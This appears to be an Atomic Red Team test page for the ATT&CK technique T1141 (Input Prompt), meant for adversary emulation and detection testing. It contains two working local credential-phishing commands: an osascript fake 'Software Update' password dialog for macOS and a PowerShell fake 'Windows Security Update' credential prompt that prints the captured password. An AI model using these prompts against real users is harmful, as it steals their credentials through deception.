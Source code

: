 # T1141 - Input Prompt
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1141)
<blockquote>When programs are executed that need additional privileges than are present in the current user context, it is common for the operating system to prompt the user for proper credentials to authorize the elevated privileges for the task (ex: [Bypass User Account Control](https://attack.mitre.org/techniques/T1088)).

Adversaries may mimic this functionality to prompt users for credentials with a seemingly legitimate prompt for a number of reasons that mimic normal usage, such as a fake installer requiring additional access or a fake malware removal suite.(Citation: OSX Malware Exploits MacKeeper) This type of prompt can be used to collect credentials via various languages such as [AppleScript](https://attack.mitre.org/techniques/T1155)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: OSX Keydnap malware) and [PowerShell](https://attack.mitre.org/techniques/T1086)(Citation: LogRhythm Do You Trust Oct 2014)(Citation: Enigma Phishing for Credentials Jan 2015).</blockquote>

## Atomic Tests

- [Atomic Test #1 - AppleScript - Prompt User for Password](#atomic-test-1---applescript---prompt-user-for-password)

- [Atomic Test #2 - PowerShell - Prompt User for Password](#atomic-test-2---powershell---prompt-user-for-password)


<br/>

## Atomic Test #1 - AppleScript - Prompt User for Password
Prompt User for Password (Local Phishing)
Reference: http://fuzzynop.blogspot.com/2014/10/osascript-for-local-phishing.html

**Supported Platforms:** macOS


#### Run it with `sh`! 
```
osascript -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to activate' -e 'tell app "System Preferences" to display dialog "Software Update requires that you type your password to apply changes." & return & return  default answer "" with icon 1 with hidden answer with title "Software Update"'
```



<br/>
<br/>

## Atomic Test #2 - PowerShell - Prompt User for Password
Prompt User for Password (Local Phishing) as seen in Stitch RAT.

Reference: https://github.com/nathanlopez/Stitch/blob/master/PyLib/askpass.py

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```



<br/>
